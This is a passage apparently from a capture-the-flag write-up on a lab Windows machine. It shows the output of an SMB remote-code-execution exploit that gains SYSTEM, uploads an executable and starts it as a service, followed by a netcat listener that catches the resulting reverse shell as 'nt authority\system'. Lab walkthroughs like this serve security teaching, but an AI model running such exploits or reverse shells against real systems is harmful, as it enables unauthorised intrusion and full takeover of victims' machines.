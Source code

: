     InParam: 0xfffff8a00284a15c
    MID: 0xe03
    success controlling groom transaction
    modify trans1 struct for arbitrary read/write
    make this SMB session to be SYSTEM
    overwriting session security context
    Sending file BI8O95.exe...
    Opening SVCManager on 10.10.10.40.....
    Creating service mIfk.....
    Starting service mIfk.....
    The NETBIOS connection with the remote host timed out.
    Removing service mIfk.....
    ServiceExec Error on: 10.10.10.40
    nca_s_proto_error
    Done



At the line sixth from the end, where it says "Starting Service", I get
a connection at `nc`:



    oxdf@parrot$ rlwrap nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.40] 49162
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system








